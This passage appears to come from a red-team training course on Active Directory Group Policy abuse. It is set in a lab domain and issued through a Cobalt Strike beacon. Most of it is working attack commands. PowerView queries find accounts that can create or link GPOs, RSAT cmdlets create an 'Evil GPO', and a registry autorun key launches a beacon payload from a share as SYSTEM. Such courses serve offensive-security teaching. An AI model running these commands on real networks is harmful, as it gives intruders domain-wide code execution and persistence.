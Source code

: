 It can go in any remote location as long as it's accessible by the target computer(s)

Log into the console of Workstation 1 and run `gpupdate /force` from a Command Prompt.  Then reboot the machine.  After it starts up, the DNS Beacon will execute as SYSTEM.

SharpGPOAbuse has other functions such as adding an immediate scheduled task that you may experiment with.


## Create & Link a GPO

---

Group Policy Objects are stored in _CN=Policies,CN=System_ - principals that can create new GPOs in the domain have the "Create groupPolicyContainer objects" privilege over this object.  We can find these with PowerView's `Get-DomainObjectAcl` cmdlet by looking for those that have "CreateChild" rights on the "Group-Policy-Container", and then resolving their SIDs to readable names.

```
beacon> powershell Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }
```

Being able to create a GPO doesn't achieve anything unless it can be linked to an OU.  The ability to link a GPO to an OU is controlled on the OU itself by granting "Write gPLink" privileges.

This is also something we can find with PowerView by first getting all of the domain OUs and piping them into Get-DomainObjectAcl again.  Iterate over each one looking for instances of "WriteProperty" over "GP-Link" .

```
beacon> powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl
```

```
beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
```

GPOs can be managed from the command line via the PowerShell RSAT modules.  These are an optional install and so usually only found on management workstations.  The `Get-Module` cmdlet will show if they are present.

```
beacon> powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
```

Use the `New-GPO` cmdlet to create and link a new GPO.

```
beacon> powershell New-GPO -Name "Evil GPO"
```

Some abuses can be implemented directly using RSAT.  For example, the `Set-GPPrefRegistryValue` cmdlet can be used to add an HKLM autorun key to the registry.

```
beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\dns_x64.exe" -Type ExpandString
```
